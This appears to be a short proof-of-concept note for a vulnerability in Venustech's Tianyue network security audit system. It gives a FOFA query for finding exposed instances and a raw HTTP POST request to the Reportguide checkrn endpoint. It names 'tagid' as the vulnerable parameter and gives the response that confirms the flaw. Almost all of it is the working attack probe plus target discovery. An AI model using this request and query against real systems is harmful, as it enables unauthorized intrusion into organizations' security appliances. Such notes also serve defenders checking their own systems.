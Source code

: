 <languages />

FOFA
----

    app="启明星辰-天玥网络安全审计"

POC
---

    POST /ops/index.php?c=Reportguide&a=checkrn HTTP/1.1
    Host xxx
    User-Agent: Mozilla/5.0(Macintosh;Intel Mac OS X 10.15;rv:88.0) Gecko/20100101 Firefox/88.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3en;q=0.2
    Accept-Encoding: gzip,deflate
    Upgrade-Insecure-Requests: 1
    Connection: close
    Content-Type: application/x-www-from-urlencoded
    Content-Length: 23
    checkname=123&tagid=123

<translate> 漏洞參數：`tagid` </translate>

    /ops/index.php?c=Reportguide&a=checkrn&a=checkrn

<translate> 如果返回以下信息，則漏洞存在 </translate>

    {msg:,code:16,status:0}